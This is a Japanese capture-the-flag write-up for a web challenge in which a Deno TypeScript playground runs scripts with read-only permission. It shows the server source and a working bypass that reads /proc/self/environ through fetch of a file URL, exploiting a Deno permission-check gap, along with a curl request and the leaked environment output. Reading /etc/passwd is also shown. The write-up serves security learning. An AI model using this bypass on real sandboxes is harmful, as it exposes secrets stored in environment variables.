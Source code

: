 # Blend Script:Web:XXXXpts
TypeScriptを安全に実行できる環境を作りました！  
[https://blend-script.web.cpctf.space/](https://blend-script.web.cpctf.space/)  
[blend-script.zip](blend-script.zip)  

**Hint1**  
スクリプトはDenoでファイルの読み取り権限のみが与えられた状態で実行されるようです。  
**Hint2**  
Linuxには、様々な情報にファイルとしてアクセスできる仕組み (procfs) があります。  
**Hint3 (解法)**  
環境変数にflagがありますが、`--allow-env`が設定されていないので`Deno.env.get("FLAG")`などでは読むことができません。そこで`/proc/self/environ`から環境変数を読み取ることを考えましょう。`--allow-read`だけだと基本的に`/proc`以下を読めないよう対策されていますが、Deno v2.1.9までは`fetch`を使ったときのチェックに漏れがあるのでこれを使うことで読めます。  
```typescript
const res = await fetch("file:///proc/self/environ")
const text = await res.text()
console.log(text.replaceAll("\0", "\n")) // /proc/self/environはnull文字で区切られている
```

# Solution
URLとソースが渡される。  
アクセスするとTypeScriptを実行できるPlaygroundのようだ。  
![site.png](site/site.png)  
ソースのmain.tsは以下であった。  
```ts
import { serveFile } from "jsr:@std/http@1.0.14";

const decoder = new TextDecoder();
const encoder = new TextEncoder();

Deno.serve(async (req) => {
  const pathname = new URL(req.url).pathname;

  if (pathname === "/") {
    return serveFile(req, "./index.html");
  }

  if (pathname === "/execute") {
    if (!req.body) {
      return new Response("Please provide a body", { status: 400 });
    }

    const json = await req.json();
    await using process = new Deno.Command(Deno.execPath(), {
      args: [
        "run",
        "--allow-read",
        "-",
      ],
      env: {
        "NO_COLOR": "1",
      },
      stderr: "piped",
      stdin: "piped",
      stdout: "piped",
    }).spawn();
    let status = 200;
    let error: string | undefined = undefined;
    const timeoutID = setTimeout(() => {
      status = 408;
      error = "Script execution timed out";

      process.kill();
    }, 1000);

    const writer = process.stdin.getWriter();

    await writer.ready;
    writer.write(encoder.encode(json.script));
    await writer.close();

    const cmdOutput = await process.output();

    clearTimeout(timeoutID);

    let output: string | undefined = undefined;

    // タイムアウトしていない場合
    if (!error) {
      output = decoder.decode(cmdOutput.stdout);
      error = decoder.decode(cmdOutput.stderr);

      if (error) {
        status = 400;
      }
    }

    return new Response(JSON.stringify({ output, error }), { status });
  }

  return new Response("Not found", { status: 404 });
});
```
`--allow-read`がついているためファイルが読めそうだ。  
Dockerfileは以下のようで、環境変数にフラグがある。  
```Dockerfile
# syntax=docker/dockerfile:1
FROM denoland/deno:distroless-2.1.9

COPY index.html main.ts /app/
WORKDIR /app/
EXPOSE 8000
ENV FLAG="CPCTF{dummy_flag}"

CMD ["run", "--allow-net", "--allow-read", "--allow-run=deno", "./main.ts"]
```
試しに`console.log(await Deno.readTextFile("main.ts"));`を行うと中身が読み取れる。  
[run0.png](site/run0.png)  
`console.log(await Deno.readTextFile("/etc/passwd"));`も通る。  
[run1.png](site/run1.png)  
ただし、`console.log(await Deno.readTextFile("/proc/self/environ"));`とすると以下のようなエラーが出る。  
![run2.png](site/run2.png)  
`error: Uncaught (in promise) NotCapable: Requires all access to "/proc/self/environ", run again with the --allow-all flag`とある。  
`/etc/`以下は読めているため、`/proc/`以下だけ特殊な制限があるようだ。  
ここで、エラーの内容がわかる場合`import "/proc/self/environ"`でファイルを読みだすテクニックを思い出す。  
![run3.png](site/run3.png)  
Errorにうまく環境変数が出てきているが、`FLAG=CPCTF{Y...`とちょうどフラグが省略されている。  
では、よくある`fetch`はどうかと思い付く。  
`fetch("file:///proc/self/environ").then((data) => data.text()).then((res) => console.log(res));`とする。  
![flag.png](site/flag.png)  
うまくOutputに環境変数が出ている。  
折り返しがなくNULLバイトも含まれており、見づらいのでcurlで取得する。  
```bash
$ curl -X POST https://blend-script.web.cpctf.space/execute -d '{"script":"fetch(\"file:///proc/self/environ\").then((data) => data.text()).then((res) => console.log(res));"}'
{"output":"DENO_DIR=/deno-dir/\u0000DENO_INSTALL_ROOT=/usr/local\u0000DENO_VERSION=2.1.9\u0000FLAG=CPCTF{YOU_can_rEad_3VeryTh1NG_4s_4_Fil3}\u0000HOME=/root\u0000HOSTNAME=235b3f80b97e\u0000NO_COLOR=1\u0000PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\u0000SSL_CERT_FILE=/etc/ssl/certs/ca-certificates.crt\u0000\n","error":""}
```
flagが得られた。  

## CPCTF{YOU_can_rEad_3VeryTh1NG_4s_4_Fil3}